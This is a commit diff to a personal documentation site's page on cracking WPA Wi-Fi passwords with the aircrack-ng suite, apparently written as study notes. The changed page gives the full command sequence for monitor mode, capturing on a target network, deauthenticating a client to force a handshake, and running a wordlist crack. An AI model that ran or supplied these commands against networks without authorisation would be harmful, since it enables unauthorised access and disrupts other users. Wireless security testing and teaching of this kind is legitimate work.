

Before and after one commit to johnlwhiteman/johnlwhiteman.github.io, an MkDocs documentation site: the page built from docs/wireless/attacks/wpa/aircrack-ng.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; some of the changed text lies outside the part shown.

Commit message:
partridge
Signed-off-by: John L. Whiteman <>

````diff
--- a/docs/wireless/attacks/wpa/aircrack-ng.md
+++ b/docs/wireless/attacks/wpa/aircrack-ng.md
@@ -5,24 +5,39 @@
 ## Commands
 
 * Run [setup](../../setup.md) first
+* Two terminals are needed
+* At least on client associated with the AP
 
 ```bash
-# Start monitor mode
+# [Terminal One]
+# Set interface to monitor mode
 sudo airmon-ng start $INTERFACE
 
-# Start monitor mode but with filters and output saved to PCAP.
+# Start monitoring - make terminal large enough to see everything
 sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE
 
-# Do one deauth injection attack while still monitoring
-sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT $INTERFACE
+# [Terminal Two]
+# Run the deauthentication attack to get four-way handshake
+sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE
 
 # Wait for the four-way handshake to appear in airodump-ng window.
+
+```
+![four-way](../../images/fourway-handshake.png)
+
+```bash
 # Stop airodump-ng when it appears
 qq
 
 # Crack the password
-sudo aircrack-ng -w $WORDLIST -b $BSSID -e $SSID $PCAP
+sudo aircrack-ng -0 -w $WORDLIST -b $BSSID -e $SSID $PCAP
 ```
+
+![four-way](../../images/cracked-password-wpa.png)
+
+* If password is not found:
+    * Make sure that a four-way handshake is captured
+    * Use a better password file
 
 ## References
 
````
Also changed, not shown: docs/wireless/setup.md (+3 -0 lines), docs/wireless/images/cracked-password-wpa.png (added), docs/wireless/images/fourway-handshake.png.
